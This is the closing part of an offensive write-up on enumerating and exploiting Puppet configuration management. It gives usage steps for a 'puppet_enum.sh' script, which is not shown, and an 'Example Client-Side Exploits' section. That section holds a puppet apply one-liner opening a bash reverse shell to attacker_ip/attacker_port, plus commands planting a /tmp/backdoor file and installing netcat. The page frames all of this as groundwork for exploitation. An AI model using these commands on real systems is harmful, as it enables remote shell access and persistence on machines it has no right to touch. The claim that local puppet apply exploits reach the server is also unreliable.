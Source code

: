 ### **How to Use the Script**

1. **Copy and Save the Script**: Save the script as `puppet_enum.sh` and make it executable with `chmod +x puppet_enum.sh`.
2. **Run the Script**: Execute the script with `sudo ./puppet_enum.sh` to perform the enumeration and check for potential exploitation paths.
3. **Review the Output**: The script will output details about Puppet’s presence, configuration files, potential exploit paths, and possible client-side exploitation commands.

### **Client-Side Exploits to Move to the Server**

If Puppet is used in an environment where the server controls configurations on client machines, exploiting the Puppet agent can allow an attacker to execute commands on the server via crafted manifests.

#### **Example Client-Side Exploits**

1. **Execute Arbitrary Commands:**
   ```bash
   puppet apply -e 'exec { "exploit": command => "/bin/bash -c \\"bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1\\"", }'
   ```

2. **Abuse Puppet Resources:**
   ```bash
   puppet apply -e 'file { "/tmp/backdoor": ensure => "present", content => "reverse_shell_payload_here", }'
   puppet apply -e 'package { "netcat": ensure => "installed", }'
   ```

### **Conclusion**

This script helps identify Puppet installations and their potential vulnerabilities, providing the groundwork for further investigation and exploitation, particularly in environments where Puppet is used for automated configuration management.